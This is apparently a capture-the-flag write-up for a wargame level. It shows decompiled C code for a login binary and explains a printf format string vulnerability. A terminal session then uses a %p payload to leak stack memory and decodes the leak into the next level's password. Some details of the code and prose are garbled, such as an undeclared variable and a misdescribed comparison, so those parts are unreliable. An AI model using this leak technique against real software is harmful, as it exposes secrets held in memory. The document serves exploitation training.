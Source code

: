 int main(int argc, const char **argv, const char **envp)
{
  char name[100]; // [rsp+B0h] [rbp-70h] BYREF
  char password[118]; // [rsp+10h] [rbp-110h] BYREF
  char buffer[48]; // [rsp+80h] [rbp-A0h] BYREF
  int v5;
  int v8;
  int v9;
  FILE *stream

  memset(name, 0, sizeof(s));
  v8 = 0;
  memset(buffer, 0, 41);
  memset(password, 0, sizeof(password));
  v5 = 0;
  stream = 0LL;
  v9 = 0;
  stream = fopen("/home/users/level03/.pass", "r");
  if ( !stream )
  {
    fwrite("ERROR: failed to open password file\n", 1, 36, stderr);
    exit(1);
  }
  v9 = fread(buffer, 1, 0x29, stream);
  buffer[strcspn(buffer, "\n")] = 0;
  if ( v9 != 41 )
  {
    fwrite("ERROR: failed to read password file\n", 1, 36, stderr);
    fwrite("ERROR: failed to read password file\n", 1, 36, stderr);
    exit(1);
  }
  fclose(stream);
  puts("===== [ Secure Access System v1.0 ] =====");
  puts("/***************************************\\");
  puts("| You must login to access this system. |");
  puts("\\**************************************/");
  printf("--[ Username: ");
  fgets(name, 100, stdin);
  name[strcspn(name, "\n")] = 0;
  printf("--[ Password: ");
  fgets(password, 100, stdin);
  password[strcspn(password, "\n")] = 0;
  puts("*****************************************");
  if ( strncmp(buffer, password, 41) )
  {
    printf(name);
    puts(" does not have access!");
    exit(1);
  }
  printf("Greetings, %s!\n", name);
  system("/bin/sh");
}

The binary stores wordpass of the next level on a buffer on the stack, then takes 2 inputs using `fgets()`:
a name and a password and finally checks if the buffer() is equal to the `name` variable.

the issue is that if buffer ain't equal to the name the name is passed directly into printf() resulting in a printf format string vulnerability



level02@OverRide:~$ ./level02 
===== [ Secure Access System v1.0 ] =====
/**\
| You must login to access this system. |
***/
--[ Username: %p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p
--[ Password: 
*
0x7fffffffe500(nil)(nil)0x2a2a2a2a2a2a2a2a0x2a2a2a2a2a2a2a2a0x7fffffffe6f80x1f7ff9a08(nil)(nil)(nil)(nil)(nil)(nil)(nil)(nil)(nil)(nil)(nil)(nil)0x100000000(nil)0x756e5052343768480x45414a35617339510x377a7143574e67580x354a35686e4758730x48336750664b394d0xfeff00 does not have access!

756e505234376848    unPR47hH                  
45414a3561733951    EAJ5as9Q
377a7143574e6758    7zqCWNgX
354a35686e475873    5J5hnGXs
48336750664b394d    H3gPfK9M

Hh74RPnu Q9sa5JAE XgNWCqz7 sXGnh5J5 M9KfPg3H